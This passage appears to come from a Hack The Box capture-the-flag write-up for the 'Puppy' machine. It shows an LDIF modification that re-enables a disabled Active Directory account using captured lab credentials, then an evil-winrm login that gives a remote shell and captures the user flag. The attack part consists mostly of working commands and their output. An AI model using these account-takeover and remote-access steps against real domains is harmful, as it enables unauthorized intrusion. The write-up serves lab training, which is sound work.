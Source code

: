 ```bash
<SNIP>
userAccountControl: 66050
```

- AD account ADAM.SILVER confirmed as disabled (userAccountControl: 66050).
    

---

### Enable ADAM.SILVER via LDIF

Create file: enable_adam.ldif 
```txt
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
```

```bash
ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -w 'Antman2025!' -f enable_adam.ldif
```

```bash
modifying entry "CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB"
```

- ADAM.SILVER account successfully enabled (userAccountControl now 512).
---

### Initial Foothold via Evil-WinRM

```bash
evil-winrm -i 10.10.11.70 -u 'ADAM.SILVER' -p 'Pwned123!'
```

```powershell
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> ls
Mode LastWriteTime Length Name
-a---- 9/15/2025 4:02 AM 34 user.txt
<SNIP>
```

```powershell
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> cat user.txt
3fcd9cef<REDACTED>
```

- Initial user shell obtained for ADAM.SILVER.
    
- user.txt captured on Desktop confirms foothold.
    

---
## Privileges Esaclation

### Local Windows Machine Pillaging
